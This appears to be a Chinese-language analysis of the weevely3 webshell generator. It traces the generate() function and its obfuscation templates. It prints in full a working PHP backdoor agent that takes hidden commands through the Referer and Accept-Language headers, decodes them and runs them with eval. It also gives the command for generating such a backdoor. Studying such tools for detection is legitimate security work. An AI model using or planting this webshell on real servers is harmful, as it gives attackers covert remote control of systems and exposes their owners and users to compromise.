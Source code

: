 ### 4.1 generate()函数流程分析

使用命令

    python weevely.py generate 123 shell/wee.php

生成一个木马文件，会调用generate()函数来生成木马

**step1**

generate()在weevely3/core/generate.py中，函数原型为：

    line:8  def generate(password, obfuscator = 'obfusc1_php', agent = 'stegaref_php'):

其中，password为用户指定的密码，obfuscator是使用的webshell模糊变换模板，agent为webshell的模板，后两个参数均可自定义。用户可以自己编写自定义的模板放入weevely3/bd/obfuscators和weevely3/bd/agents目录下，然后命令中指定自定义的模板。

**step2**

    line:22 agent = Template(open(agent_path,'r').read()).render(password=password)

render agent模板文件，得到原始的webshell，原始webshell如下图：

![原始webshell](/images/weevely_4.JPG)

**step3**

    line:32 minified_agent = utils.code.minify_php(agent)

对原始的webshell进行“净化”操作，去除里面的“\r\n”等特殊字符

**step4**

    line:38 obfuscated = obfuscator_template.render(agent=agent)

这是最核心的代码，使用obfuscator模板对webshell进行“模糊”处理，去除容易被检测的特征，具体分析见下一节。

### 4.2 obfuscator模板分析

默认的obfuscator模板文件是weevely3/bd/obfuscators/obfusc1_php.tpl，obfuscator模板的输入为原始的webshell，如下：

    $kh="202c";$kf="b962";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];if($rr&&$ra){$u=parse_url($rr);parse_str($u["query"],$q);$q=array_values($q);preg_match_all("/([\\w])[\\w-]+(?:;q=0.([\\d]))?,?/",$ra,$m);if($q&&$m){@session_start();$s=&$_SESSION;$ss="substr";$sl="strtolower";$i=$m[1][0].$m[1][1];$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));$p="";for($z=1;$z<count($m[1]);$z++)$p.=$q[$m[2][$z]];if(strpos($p,$h)===0){$s[$i]="";$p=$ss($p,3);}if(array_key_exists($i,$s)){$s[$i].=$p;$e=strpos($s[$i],$f);if($e){$k=$kh.$kf;ob_start();@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));$o=ob_get_contents();ob_end_clean();$d=base64_encode(x(gzcompress($o),$k));print("<$k>$d</$k>");@session_destroy();}}}}
